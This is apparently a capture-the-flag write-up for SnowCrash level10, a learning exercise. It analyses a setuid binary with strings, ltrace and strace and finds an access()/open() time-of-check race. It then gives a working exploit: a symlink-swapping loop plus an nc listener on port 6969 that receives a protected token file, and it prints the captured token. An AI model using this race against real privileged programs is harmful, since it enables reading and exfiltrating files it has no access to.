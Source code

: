 ## Step 0: Explore available files
level10@SnowCrash:~$ ls -la
total 28
dr-xr-x---+ 1 level10 level10   140 Mar  6  2016 .
d--x--x--x  1 root    users     340 Aug 30  2015 ..
-r-x------  1 level10 level10   220 Apr  3  2012 .bash_logout
-r-x------  1 level10 level10  3518 Aug 30  2015 .bashrc
-rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
-r-x------  1 level10 level10   675 Apr  3  2012 .profile
-rw-------  1 flag10  flag10     26 Mar  5  2016 token

### run the executable
level10@SnowCrash:~$ ./level10 
./level10 file host
	sends file to host if you have access to it

level10@SnowCrash:~$ ./level10 token 192.168.56.103
You don't have access to token

### explore the executable 

level10@SnowCrash:~$ strings level10 
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
...
%s file host
	sends file to host if you have access to it
Connecting to %s:6969 .. 
Unable to connect to host %s
.*( )*.
Unable to write banner to host %s
Connected!
Sending file .. 
Damn. Unable to open file
Unable to read from file: %s
wrote file!
You don't have access to %s
;*2$"
GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
/usr/lib/gcc/i686-linux-gnu/4.6/include
/usr/include/i386-linux-gnu/bits
/usr/include
/usr/include/netinet
level10.c
...


We can see that it attemps to connect to port 6969
And tries to open a file, that cannot be read 

level10@SnowCrash:~$ ltrace ./level10
__libc_start_main(0x80486d4, 1, 0xbffff7f4, 0x8048970, 0x80489e0 <unfinished ...>
printf("%s file host\n\tsends file to ho"..., "./level10"./level10 file host
	sends file to host if you have access to it
) = 65
exit(1 <unfinished ...>
+++ exited (status 1) +++

level10@SnowCrash:~$ ltrace ./level10 token 192.168.56.103
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                               = -1
printf("You don't have access to %s\n", "token"You don't have access to token
) = 31
+++ exited (status 31) +++

It calls access, this is relevant information 

Checking the man

Access: access - check real user's permissions for a file
access()  checks  whether the calling process can access the file path‐
       name.  If pathname is a symbolic link, it is dereferenced.
Warning: Using access() to check if a user is authorized to, for  exam‐
       ple, open a file before actually doing so using open(2) creates a secu‐
       rity hole, because the user  might  exploit  the  short  time  interval
       between  checking and opening the file to manipulate it.  For this rea‐
       son, the use of this system call should be avoided.   (In  the  example
       just  described, a safer alternative would be to temporarily switch the
       process's effective user ID to the real ID and then call open(2).)

if we do 

level10@SnowCrash:~$ strace ./level10 token 192.168.56.103
execve("./level10", ["./level10", "token", "192.168.56.103"], [/* 18 vars */]) = 0
brk(0)                                  = 0x804b000
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap2(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0xb7fdb000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY|O_CLOEXEC) = 3
fstat64(3, {st_mode=S_IFREG|0644, st_size=21440, ...}) = 0
...

We see there is a call to access
and then a call to open 

## Conclusions

We can exploit the security hole that is created

Quick google search gives us 
https://stackoverflow.com/questions/7925177/access-security-hole

That is a TOCTOU race (Time of Check to Time of Update). A malicious user could substitute a file he has access to for a symlink to something he doesn't have access to between the access() and the open() calls. Use faccessat() or fstat(). In general, open a file once, and use f*() functions on it (e.g: fchown(), ...).

In three terminals

nc -lk 6969

while true; do ln -s /home/user/level10/token /tmp/link; rm -f /tmp/link; touch /tmp/link; rm -f /tmp/link; done

while true; do ./level10 /tmp/link 192.168.56.103; done

In the first terminal we will see the token

.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
